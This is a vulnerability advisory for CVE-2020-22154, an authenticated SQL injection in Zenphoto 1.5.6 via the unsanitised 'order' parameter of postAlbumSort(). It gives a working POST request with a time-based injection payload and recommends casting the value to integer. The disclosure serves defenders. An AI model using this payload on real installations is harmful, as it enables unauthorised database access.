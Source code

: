 ```yaml
---
cve: "CVE-2020-22154"
slug: "CVE-2020-22154: Authenticated SQL injection in Zenphoto"
title: "Authenticated SQL injection in Zenphoto v1.5.6 and prior"
images: [/images/cve-mitre.png]
date: 2020-02-12
tags:
- cve
- sql injection
---
```

Zenphoto 1.5.6 was discovered to contain a SQL injection via the `postAlbumSort()` function in `/zp-core/admin-functions.php`.
<!--more-->

- mitre: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-22154

<hr />

**Description:**  
The function `postAlbumSort()` triggers a SQL query using the POST parameter `order`, unfortunately his value is not sanitized when building the query.

**Details:**  
File: `/zp-core/admin-functions.php`  
Function: `postAlbumSort()`  
Parameter: `order`  

**Payload:**  
```
POST /zp-core/admin-edit.php?page=edit&action=savealbumorder
XSRFToken=bfc6ec5b3fdffce396ca60b824b68e3eb18a5d4c&checkallaction=noaction&newtag_mass_tags_=&massownerselect=admin&order=id%5B2 and (select sleep(5))%23%5D%3Dnull%26id%5B1%5D%3Dnull&update=Save+Order
```

**Recommendation:**  
Cast the value to integer.

**PoC:**  
![cve-2020-22154 Zenphoto sqli](/images/cve-2020-22154.png)
